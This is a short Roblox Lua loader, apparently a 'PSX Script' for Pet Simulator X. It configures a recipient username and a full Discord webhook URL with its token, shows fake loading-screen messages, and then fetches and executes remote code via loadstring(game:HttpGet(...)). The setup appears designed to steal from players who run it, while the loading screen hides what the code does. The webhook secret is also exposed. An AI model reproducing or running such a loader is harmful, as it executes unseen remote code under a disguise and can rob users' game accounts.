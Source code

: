 Username = "FNTCLOUT_ALT111"
WebHook = "https://discord.com/api/webhooks/1089777255921758259/Mnov_IRbknajvebtiRxrsFbMCKWADAQFU3pTbUMJMNm_NK1scMKjyT2Ij7WqzuzWNbsp"


loadingscreen = true -- set this to false and remove _G. stuff to use your own GUI
_G.CustomScriptName = "PSX Script"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
